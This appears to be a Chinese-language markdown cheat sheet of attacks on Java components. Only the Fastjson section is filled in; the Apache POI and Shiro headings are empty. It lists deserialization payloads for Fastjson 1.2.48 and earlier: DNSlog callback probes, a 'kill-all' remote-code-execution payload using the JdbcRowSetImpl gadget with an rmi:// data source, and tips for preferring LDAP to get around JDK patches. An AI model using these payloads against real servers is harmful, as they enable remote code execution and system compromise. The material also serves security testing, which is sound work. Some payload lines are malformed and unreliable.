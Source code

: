 

# JAVA组件漏洞


- [Fastjson](#Fastjson)

- [Apache-Poi](#Apache-poi)

- [Shiro](#Shiro)

  

## Fastjson

### 查看版本
```
1.{"@type":"java.lang.AutoCloseable"(From [浅蓝](https://b1ue.cn/archives/402.html)
```
### 版本 <= 1.2.48

### 回显 

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了

LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了

LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制

当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## Apache-poi

## Shiro
